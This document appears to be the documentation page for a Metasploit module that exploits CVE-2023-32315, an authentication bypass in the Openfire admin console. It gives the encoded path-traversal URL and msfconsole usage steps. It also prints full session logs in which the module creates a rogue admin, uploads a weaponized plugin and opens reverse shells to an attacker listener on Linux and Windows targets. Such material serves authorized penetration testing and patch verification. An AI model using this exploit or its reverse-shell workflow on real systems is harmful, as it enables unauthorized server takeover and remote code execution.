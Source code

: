 ## Vulnerable Application
`Openfire's` administrative console, a web-based application, was found to be vulnerable to a path traversal attack
via the setup environment using the path `http://localhost:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/`.
Endpoints such as `log.jsp`, `user-groups.jsp` and `user-create.jsp` can be used to gain unauthorized admin access.
It allows an unauthenticated user to use the unauthenticated `Openfire` Setup Environment in an already configured
`Openfire` environment to access restricted pages in the `Openfire Admin Console` reserved for administrative users.

This module will use the vulnerability to create a new admin user that will be used to upload a `Openfire` management plugin
weaponized with a `Java` native payload that triggers an RCE.
The vulnerability affects all versions of `Openfire` that have been released since April 2015, starting with version `3.10.0`.
The problem has been patched in `Openfire` release `4.7.5` and `4.6.8`, and further improvements will be included
in the first version on the `4.8` branch, which is version `4.8.0`.

This module has been tested on:
- [ ] Ubuntu Linux 22.04.
* Openfire 3.10.1, 4.0.4, 4.1.0, 4.2.0, 4.3.0, 4.4.0, 4.5.0, 4.6.0. 4.7.0, 4.7.1, 4.7.3
* Java 7, 8, 17
- [ ] Windows Server 2019 Datacenter
* Openfire 4.7.3
* Java 20

**Instructions for an Openfire installation:**
Download Openfire releases [here](https://github.com/igniterealtime/Openfire/releases?page=1)
Follow installation instructions [here](https://download.igniterealtime.org/openfire/docs/latest/documentation/install-guide.html)

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set target <0=Java Universal>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

```
msf6 exploit(multi/http/openfire_auth_bypass_rce_cve_2023_32315) > options

Module options (exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   ADMINNAME                      no        Openfire admin user name, (default: random)
   PLUGINAUTHOR                   no        Openfire plugin author, (default: random)
   PLUGINDESC                     no        Openfire plugin description, (default: random)
   PLUGINNAME                     no        Openfire plugin base name, (default: random)
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         9090             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /                yes       The base path to the web application
   VHOST                          no        HTTP server virtual host


Payload options (java/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal
```

## Options

### TARGETURI
The uripath to the `Openfire Admin Console`. Default set to `/` which is the standard for `Openfire`.

### ADMINNAME
`Openfire` admin user name option to create a new admin user. User name will be randomized if not set.

### PLUGINAUTHOR
`Openfire` plugin author to set the name of the plugin author. Author name will be randomized if not set.

### PLUGINDESC
`Openfire` plugin description to update the description of the plugin. Description will be randomized if not set.

### PLUGINNAME
`Openfire` plugin name to set the plugin name. Plugin name will be randomized if not set.

## Scenarios
### Ubuntu  22.04 - Openfire 4.7.0 - java/meterpreter/reverse_tcp
```
msf6 exploit(multi/http/openfire_auth_bypass_rce_cve_2023_32315) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Openfire version is 4.7.0
[*] Grabbing the cookies.
[*] JSESSIONID=node010hllcuuhb19x13etracg8jjxk24.node0
[*] csrf=Lc9ZXFTo6H3bnC1
[*] Adding a new admin user.
[*] Logging in with admin user "jdajefap" and password "W3EozCK8Nx".
[*] Upload and execute plugin "U6zVD3dY" with payload "java/meterpreter/reverse_tcp".
[*] Sending stage (58851 bytes) to 192.168.201.59
[*] Meterpreter session 33 opened (192.168.201.10:4444 -> 192.168.201.59:60420) at 2023-07-08 10:33:16 +0000
[!] Plugin "U6zVD3dY" need manually clean-up via Openfire Admin console.
[!] Admin user "jdajefap" need manually clean-up via Openfire Admin console.

meterpreter > getuid
Server username: openfire
meterpreter > sysinfo
Computer        : cuckoo
OS              : Linux 5.15.0-76-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
meterpreter >
```
### Windows Server 2019 Datacenter - Openfire 4.7.3 - java/shell/reverse_tcp
```
msf6 exploit(multi/http/openfire_auth_bypass_rce_cve_2023_32315) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Openfire version is 4.7.4
[*] Grabbing the cookies.
[*] JSESSIONID=node01dr68xhv8giop14zogvh0ycnt13.node0
[*] csrf=mRz62R9hab6YAgt
[*] Adding a new admin user.
[*] Logging in with admin user "qkcvdmmevuvw" and password "tO0gWgDrM4".
[*] Upload and execute plugin "XZl3TKb1ayogynR" with payload "java/shell/reverse_tcp".
[*] Sending stage (2952 bytes) to 192.168.201.57
[!] Plugin "XZl3TKb1ayogynR" need manually clean-up via Openfire Admin console.
[!] Admin user "qkcvdmmevuvw" need manually clean-up via Openfire Admin console.
[*] Command shell session 32 opened (192.168.201.10:4444 -> 192.168.201.57:50171) at 2023-07-08 10:31:01 +0000


Shell Banner:
Microsoft Windows [Version 10.0.17763.107]
-----


C:\Program Files\Openfire\bin>systeminfo
systeminfo

Host Name:                 WIN-HHRQENPDSRS
OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00430-00000-00000-AA500
Original Install Date:     1/23/2023, 4:51:06 AM
System Boot Time:          7/8/2023, 2:16:23 AM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 158 Stepping 13 GenuineIntel ~2306 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,048 MB
Available Physical Memory: 728 MB
Virtual Memory: Max Size:  3,469 MB
Virtual Memory: Available: 1,523 MB
Virtual Memory: In Use:    1,946 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Desktop Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     192.168.201.1
                                 IP address(es)
                                 [01]: 192.168.201.57
                                 [02]: fe80::b089:6587:7273:231e
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

C:\Program Files\Openfire\bin>
```

## Limitations
No limitations.
